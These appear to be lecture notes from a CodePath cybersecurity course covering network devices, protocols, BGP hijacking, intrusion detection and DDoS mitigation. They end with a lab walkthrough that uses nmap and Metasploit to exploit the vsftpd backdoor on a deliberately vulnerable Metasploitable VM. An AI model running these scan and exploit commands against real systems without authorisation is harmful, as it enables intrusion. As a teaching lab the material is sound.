







# CodePath 7/2/25 Lecture

## Networks

### Network Devices

-   Router
    -   Communicates between internet and endpoint devices
    -   Directs incoming & outgoing traffic in fastest possible way
    -   Can provide network-level protection against cyber attacks
    -   Operates on Network layer
-   Switch
    -   Connects devices to create a network
    -   Uses packet switching to receive and forward data
    -   Operates on Data Link Layer
-   Routers and Switches
    -   
-   Firewalls
    -   Network security system
    -   Monitors and controls incoming & outgoing network traffic
    -   Establishes a barrier between trusted & untrusted network
    -   
-   Load Balancers
    -   Distributes network traffic across multiple servers
        -   No single server is overloaded with demand
    -   Improves application responsiveness & availability
    -   Helps prevent DDoS attacks
-   Network without Load Balancing
    -   
-   Network with Load Balancing
    -   

### Protocols

-   Protocol: a set of implementation-agnostic rules for completing a task.
-   Media Access Control (MAC) Addresses
    -   All computers in a “broadcast domain” receive all transmissions
    -   MAC address indicates which computer data is intended for
    -   MAC address is attached to data before broadcasting
    -   You should have your MAC address in your terminal from ipconfig (Windows) or ifconfig (Mac) earlier [Don’t share it!]
-   Address Resolution Protocol (ARP)
    -   Protocol used for discovering MAC addresses from IP addresses
    -   Sender asks for MAC address associated with IP
        -   Computer with corresponding IP responds with MAC address
    -   
-   Domain Name System (DNS)
    -   Translates domain names (e.g. docs.google.com) to IP addresses
    -   Let’s look at the steps of DNS resolution …
    -   DNS Resolution
        -   
-   Dynamic Host Configuration Protocol (DHCP)
    -   Server that automatically assigns IP addresses and other network parameters
    -   Device requests IP from DHCP server to access network
    -   DHCP server monitors use of addresses and can revoke them
    -   Reduces network administration & minimizes address conflicts and other errors
-   Routing
    -   Process of selecting a path for traffic within and between networks
    -   Algorithms are used to optimize routing
        -   Distance vector
        -   Link-state
        -   Optimized Link State
        -   Path-vector
    -   Network acts autonomously to avoid failure and blockages
-   Border Gateway Protocol (BGP)
    -   A routing protocol
    -   Not all networks belong to the same organization
    -   BGP accounts for business considerations, e.g. charges for carrying traffic
-   BGP Hijacking
    -   BGP route-sharing relies on trust
        -   Networks implicitly trust routes shared with them
    -   Hijacking: attackers maliciously reroute internet traffic
        -   Falsely announce ownership of groups of IP addresses
    -   

### Network Vulnerabilities

-   Network intrusion: unauthorized access of a computer or address within an assigned domain.
-   Network Intrusion Detection
    -   Monitoring a network for malicious activity
    -   Wide range, including antivirus software and tiered monitoring systems
    -   Signature detection: detects possible threats by looking for specific patterns, such as byte sequences in network traffic, or known malicious instruction sequences
    -   Anomaly-based detection: detects and adapts to unknown attacks, especially useful due to increase in malware
        -   Ex: I don't know how you're sick when you're sick but you know your nose shouldn't be stuffy
-   Network Intrusion Prevention Strategies
    -   Network intrusion prevention system: monitors all network traffic and proactively scans for threats
    -   Host intrusion prevention system: installed on an endpoint, looks at inbound & outbound traffic from that device only
        -   Last line of defense
    -   Network behavior analysis: detects unusual traffic flows, spots zero-day vulnerabilities
    -   Wireless intrusion prevention system: scans WiFi network for unauthorized access
-   Analysis of Network Traffic
    -   Continuous collection of real-time and historical network data
    -   Detecting malware
    -   Detecting vulnerable protocols and ciphers
    -   Eliminating blind spots in the network
-   Distributed Denial of Service (DDoS)
    -   Flooding a service with an overwhelming amount of traffic in an attempt to take the service offline
    -   Identifying a DDoS attack:
        -   High volume of traffic from one IP address or IP range
        -   Flood of traffic from users with a similar profile e.g. device type
        -   Unexplained surge in requests to a single endpoint
        -   Spikes of traffic at odd hours
-   Mitigating DDoS Attacks
    -   Key idea: differentiate between attack traffic & normal traffic
    -   Blackhole routing: funnel traffic into a null route
        -   Makes network inaccessible for all funneled traffic
    -   Rate limiting: limit the number of requests a server accepts in a given timespan
        -   Struggles to handle a multi-vector DDoS
    -   Traffic scrubbing: traffic is redirected to a datacenter and cleaned before forwarding to original destination

### Week 5 Project 4: Exploits!

-   We'll be scratching the surface of penetration testing, in which we purposefully try to gain access to a vulnerable system
-   So, it's not easy to hack into a computer. (Thankfully!) Modern computer systems have full Security Teams that are constantly working to patch and prevent vulnerabilities.
-   That's where Metasploitable comes in. It's a Virtual Machine that has been purposefully left unpatched, so that people like us can use it to learn cybersecurity!
-   Run metasploitable using a docker image `docker start -ai metasploitable`
-   Open a second terminal window and in both the metasploitable and second terminal window type `lsb_release -a` which provides more information about the system.
-   Compare network address info using `ifconfig`
    -   
    -   
-   Perform a basic scan of Metasploitable using its IP address `nmap -p 0-65535 172.17.0.2`
    -   This scans ports 0-65535
    -   We're looking for port 21 running ftp
-   Scan port 21 for vulnerabilities `nmap 172.17.0.2 --script vuln -p 21`
    -   
    -   Notice the ftp-vsftpd-backdoor
-   Run `msfconsole` to launch metasploit
-   Search for vsftpd exploits using `search vsftpd`
-   To use the excellent ranked module, type `use 1`
-   To show its available settings and required information, type `options`
    -   
-   Set the Remote Host IP address using `set RHOSTS 172.17.0.2`
-   To run the exploit, type `exploit`
-   To confirm have access to metasploitable through our vm check its system and network information against the ones we documented earlier
    -   
-   Type `exit` to exit from _metasploitable_, and `exit` again to exit _metasploit_
